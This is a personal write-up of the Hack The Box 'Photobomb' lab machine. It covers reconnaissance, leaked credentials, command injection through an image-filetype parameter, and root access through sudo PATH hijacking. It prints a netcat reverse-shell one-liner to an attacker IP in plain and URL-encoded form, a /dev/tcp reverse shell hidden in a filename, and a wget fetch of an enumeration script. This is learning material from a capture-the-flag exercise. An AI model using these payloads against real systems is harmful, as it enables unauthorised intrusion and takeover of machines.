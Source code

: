 # Photobomb WIP
## Start: 24/10/2022
### IP Address: 10.10.11.182

Ok so first things first, nmap scan, -sV for services/versions -sC for any default scripts we can run, Pn to treat the host as online (as we know it is)

```
$> nmap 10.10.11.182 -sV -sC -Pn
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-24 19:53 BST
Nmap scan report for 10.10.11.182
Host is up (0.029s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.38 seconds

```

Ok standard server with SSH and a webbed site which seems to wanting to point us to photobomb.htb, which i'll add to my hosts file just for ease of use.

I mostly swap to the inbuilt browser in burpsuite whenever i look at websites just so that any action i take i can always send to the repeater function and replay them with modifications.

#### Homepage
![Picture of homepage](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/home.png)
Page is very simple, has a link to a "printer" page with a username and password
Looking at the home page source code it seems some careless admin has just given out some credentials in the photobomb.js file loaded by default.
![Picture of leaked privs](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/leaked_privs.png)
So pH0t0 : b0Mb! ok. the name Jameson given here could be useful too.
#### Printer page
![Picture of admin prompt](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer.png)
Well we have some credentials.. might as well try them
![Picture of successful login](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/printer_success.png)
So this page looks to ask us to select a picture and a size / filetype to download for printing purposes.
It does this by making a post request along with the form data to the same site at /printer, so lets make one manually, as we can specifiy the file name, my initial thought is can we potentially use this to view other files?

So lets hit that button and inspect the request!
![Picture of repeater](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/repeat.png)
So we send a filename, filetype and size. 
Well lets not send anything! What do we get back? 500 error showing a backtrace of the ruby program which runs the server, including what it looks for. Here it shows it's matching a filename using 
![Picture of 500 error 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_1.png)
```
if photo.match(/\.{2}|\//)
```
Well i dont know regex well enough, but it seems it checks for either a `..` or a `/` symbol to try to block directory inclusions
The filename seems secure enough, it can only find pictures that are there, ignores directories, and causes the whole page to error if the system doesn't find the file.
So lets try another parameter, we can use the same technique to view the regex backtrace for the filetype.
![Picture of 500 error 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/error_500_2.png)
```
 if !filetype.match(/^(png|jpg)/)
```
again, im not the best with regex. but this regex allows any character as long as it has png or jpg in it, well lets try and breakout using this parameter, i'll put a semicolon and a sleep command and see what happens
```
photo=.&filetype=png;sleep 20&dimensions=0x0
```
and what do you know, that page took ages to load.. about 20 seconds!
![Picture of loading page](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/waiting20.png)
### Command Injection
Well first things first, we seem to have command injection, can we reverse shell at this stage?
There are many different ways to reverse shell, the one that always seems to work for me is below:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc $IP $PORT >/tmp/f
```
lets url encode that, setup a netcat listener and see if we get a connection!
![Picture of nc](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/nc-startup.png)
encoded comes out to
```
%72%6d%20%2f%74%6d%70%2f%66%3b%6d%6b%66%69%66%6f%20%2f%74%6d%70%2f%66%3b%63%61%74%20%2f%74%6d%70%2f%66%7c%2f%62%69%6e%2f%62%61%73%68%20%2d%69%20%32%3e%26%31%7c%6e%63%20%31%30%2e%31%30%2e%31%36%2e%35%31%20%34%34%34%34%20%3e%2f%74%6d%70%2f%66
```
![Picture of exploit 1](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_page.png)
![Picture of exploit 2](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/owned_shell.png)
SHELL ACCESS!

## User Access
We are in command of the user "wizard", lets check this home directory out!
![Picture of user home folder](https://github.com/e-war/Writeups/blob/master/HackTheBox/Photobomb/Screenshots/user_folder.png)
And here we find the user.txt flag, I'll let you grab that yourself if you're reading this :)
## Root Access
Ok, so we have the user account, the first thing i run to make things easier to find is linpeas!

`wget 10.10.16.51:8000/linpeas.sh && chmod +x linpeas.sh`
I've included the output of linpeas as it's own file within this folder if you want to read over what it found.
I see potentially some CVE vulnerabilities

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Potentially Vulnerable to CVE-2022-2588
```
also, there seems to be a file in /opt/, called cleanup.sh which is run by root 
```
# daemon's notion of time and timezones.
# 
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
# 
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
# 
# For more information see the manual pages of crontab(5) and cron(8)
# 
# m h  dom mon dow   command
*/5 * * * * sudo /opt/cleanup.sh
```
that file reads as follows:
```
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;

```
~~So the script takes a log file, stores it as an old log and truncates the new log, it then finds all .jpg files within the /home/wizard/photobomb folder and execs chown as root on all of them.

now usually if a script is ran as root, while taking input from a user (which in this case would be the file names within the photobomb folder) is very unsecure (good for us :))

first things first i want to take a look at the man page for find, to see how the -exec flag actually works
```
-exec command {} +
              This  variant  of the -exec action runs the specified command on
              the selected files, but the command line is built  by  appending
              each  selected file name at the end; the total number of invoca‐
              tions of the command will  be  much  less  than  the  number  of
              matched  files.   The command line is built in much the same way
              that xargs builds its command lines.  Only one instance of  `{}'
              is  allowed  within the command, and (when find is being invoked
              from a shell) it should be quoted (for example, '{}') to protect
              it  from  interpretation  by shells.  The command is executed in
              the starting directory.  If any invocation with the `+' form re‐
              turns  a non-zero value as exit status, then find returns a non-
              zero exit status.  If find encounters an error, this  can  some‐
              times  cause an immediate exit, so some pending commands may not
              be run at all.  This variant of -exec always returns true.
```
The important thing to note is here is is that the man page suggests to quote the {} whereas in the script it's not quoted! could this mean a crafted filename could be used to make the super user run a reverse shell connection?
A filename that could fit could be "bash -i >& /dev/tcp/10.10.16.51/4242 0>&1;a.jpg"
After some testing it doesn't seem to work out the way i wanted, however whilst looking on gtfobins (a site which shows which binaries can be used to gain root access) i found that the find command could be used to gain sudo if~~
Ok, so i was on the wrong track there, i should really check every part of the linpeas file myself before i move onto attempting exploitation. lesson learned.
The current user (Wizard) can run a specific shell script (/opt/cleanup.sh) AND change environment variables as sudo with no password neccessary:
```
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
```
so we can run a file which uses a general path to reference the "find" command, so this is vulnerable to a path modification vulnerability
this is when we manually set the $PATH variable to include a script named "find" and when the script runs find it will run our version, with sudo permissions!
```
bash-5.0$ echo bash > /tmp/find
bash-5.0$ chmod +x /tmp/find
bash-5.0$  sudo PATH=/tmp:$PATH /opt/cleanup.sh
sudo PATH=/tmp:$PATH /opt/cleanup.sh
#  id  
uid=0(root) gid=0(root) groups=0(root)
```
it's just that easy it seems!
and to finish off,:
```
cat /root/root.txt
52*****************************f
```
All done! I need to take my time while re-doing reconnaissance once initial access is gained is what i mainly took away from this. Going forward i'll read through the whole linpeas script and make a shortlist of interesting things to try first.

Thanks for reading.